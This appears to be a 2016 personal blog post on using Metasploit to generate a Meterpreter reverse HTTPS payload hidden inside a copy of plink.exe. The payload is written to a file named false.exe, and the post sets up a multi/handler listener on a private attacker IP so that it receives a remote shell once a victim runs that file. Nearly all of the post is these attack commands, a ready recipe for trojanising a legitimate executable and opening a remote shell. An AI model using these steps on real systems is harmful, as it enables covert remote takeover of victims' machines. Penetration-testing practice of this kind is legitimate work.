 ```yaml
---
layout: post
title: "Metasploit Generates Payload"
date: 2016-02-26 16:47:27 -0500
comments: true
categories: metasploit payload
---
```


###This note is for generating payload using Metasploit.

###Use `generate` command:

```
msf > use payload/windows/meterpreter/reverse_https

msf payload(reverse_https) > set lhost 192.168.79.156

msf payload(reverse_https) > set lport 4444

msf payload(reverse_https) > generate -t exe -f false.exe -x /var/www/html/plink.exe

```
<!--more-->

Here I use reverse_https to generate payload and inject to plink.exe as a template.

options:

`-t  ------ payload format`

`-f  ------ payload output`

`-x  ------ injection template`

This step will generate reverse https payload and use plink.exe as a template, write to file false.exe and send it to the target.

In order to get the reverse https shell, I have to set up multi handler:

###Set up `multi handler`

```
msf > use exploit/multi/handler 

msf exploit(handler) > set payload windows/meterpreter/reverse_https

msf exploit(handler) > set lhost 192.168.79.156

msf exploit(handler) > set lport 4444

msf exploit(handler) > exploit 
```

Once the victim run the false.exe on the target machine, it will initlize a reverse https connection to the attacker.

{% img  /images/blog/metasplot_payload/metasploit_payload_1.JPG  [title text [alt text]] %}
